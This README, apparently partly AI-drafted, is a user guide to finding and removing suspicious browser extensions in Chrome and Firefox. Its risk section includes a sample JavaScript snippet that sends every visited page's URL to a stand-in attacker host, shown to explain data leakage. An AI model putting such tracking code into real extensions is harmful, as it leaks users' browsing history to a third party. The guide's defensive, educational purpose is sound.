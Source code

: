 # Spotting-and-Removing-Suspicious-Extensions

o identify and remove suspicious browser extensions, follow a clear, step-by-step process using your web browser’s built-in tools. Suspicious extensions often have vague names, require excessive permissions, have poor reviews, or are no longer used. Removing them can improve both your browser’s security and overall performance

| Extension Name               | Reason for Concern/Removal    | Action Taken |
| ---------------------------- | ----------------------------- | ------------ |
| Deal Finder                  | Unfamiliar, excessive rights  | Removed      |
| PDF Converter Pro            | Poor reviews, invasive access | Removed      |
| Weather Now                  | Unused, installed long ago    | Removed      |
| (Write your own examples...) |                               |              |

Here’s your concise README.md, formatted for inclusion in a GitHub repository. This structure introduces the project, explains its purpose, and provides clear step-by-step usage instructions suitable for both technical and non-technical audiences.

***

# Spot and Remove Suspicious Browser Extensions

A simple guide to help users identify and remove potentially harmful or unnecessary browser extensions in Chrome and Firefox.

## Why?

Malicious or poorly managed browser extensions can:

- Steal sensitive information
- Hijack browsing sessions
- Inject ads, cause unwanted redirects, or slow down your browser

## How to Use

Follow these steps regularly to keep your browser secure:

### 1. Open the Extension Manager

- **Chrome:**  
  Menu (⋮) → More Tools → Extensions
- **Firefox:**  
  Menu (☰) → Add-ons and Themes → Extensions

### 2. Review Extensions

- Scroll through your installed extensions.
- Look for unfamiliar names or tools you didn’t intentionally add.

### 3. Check Permissions & Reviews

- Inspect permissions for each extension.
- Be wary of extensions that request broad access or “all site data.”
- Search online or on the extension store for user reviews and ratings.

### 4. Remove Suspicious or Unused Extensions

- **Chrome:** Click “Remove” on unwanted extensions.
- **Firefox:** Use the three-dot menu next to the extension and select “Remove.”

### 5. Restart Your Browser

- Restart to complete the process and stop any rogue processes.

### 6. Observe Improvements

- Check for faster performance and fewer ads/pop-ups after cleaning.



Malicious or poorly secured browser extensions pose several significant risks. Below are key ways they can affect users, with real-world and code-based examples:

#### 1. Stealing Sensitive Information
Browser extensions with broad permissions can access data on every website you visit, including credentials, cookies, session tokens, and payment details. This risk is heightened when extensions require “tabs” and “<all_urls>” permissions.

- **Example: Manifest with Broad Permissions**
  ```json
  {
    "permissions": [
      "tabs",
      "http://*/*",
      "https://*/*",
      "storage"
    ]
  }
  ```
  Such permissions could allow a compromised extension to collect sensitive information across all browsing sessions.

#### 2. Hijacking Sessions and Impersonating Users
If an extension can access your cookies or authentication tokens, it can impersonate you on other sites. Server-Side Request Forgery (SSRF) vulnerabilities have been observed where extensions send authenticated requests to attacker-chosen domains, resulting in credential theft.

#### 3. Installing Malware or Causing Redirects/Ads
Some malicious extensions inject unwanted advertisements into webpages or silently redirect users to phishing sites. They may fetch and execute third-party scripts or payloads, further expanding the attack surface.

- **Example: Data Leakage Code**
  ```javascript
  chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
    if (changeInfo.status === 'complete') {
      fetch('http://attacker.com/track', {
        method: 'POST',
        body: JSON.stringify({ url: tab.url })
      });
    }
  });
  ```
  This snippet sends every page you visit to a remote attacker.

#### 4. Slowing Down Performance
Extensions running heavy background scripts or injecting ads can degrade browser and system performance.

#### 5. Insecure Storage and Privacy Risks
Extensions that store sensitive tokens or credentials in unencrypted local storage are vulnerable to theft if any malware or another extension gains access:

**Insecure Storage Example**
  ```javascript
  // Bad practice: storing unencrypted tokens
  localStorage.setItem('token', 'my-secret-token');
  ```

#### 6. Lack of Privacy Controls
Many extensions have no privacy policy or provide unclear data collection details, which allows unlimited data abuse.

